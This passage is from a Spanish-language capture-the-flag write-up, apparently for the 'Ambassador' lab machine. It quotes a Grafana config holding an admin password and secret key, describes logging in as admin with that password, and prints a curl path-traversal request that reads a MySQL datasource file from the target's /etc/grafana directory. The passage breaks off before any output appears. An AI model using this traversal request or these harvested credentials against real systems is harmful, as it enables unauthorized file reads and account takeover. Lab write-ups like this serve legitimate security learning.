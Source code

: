 es la configuracion predeterminada. En la seccion security vemos muchas cosas com,entadas pero hay un admin_password que no lo esta 

```
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false             

# default admin user, created on startup
;admin_user = admin             

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
                                                    
# used for signing                               
;secret_key = SW2YcwTIb9zpOOhoPsMm
```

- messageInABottle685427

Con esa contraseña puedo iniciar sesión en Grafana como admin: 

![Texto alternativo](/secciones/posts/imagenes/ambassador/web2.webp)

revisamos todo hasta que llegamos a config y vemos algo relacionado a base de datos. mysql.yaml no se puede modificar en la interfaz de usuario. 
Los documentos de Grafana muestran que estas configuraciones viven en /etc/grafana/provisioning/datasources. Asi que con el exploit anterior buscaremos el archivo

- curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml

salida
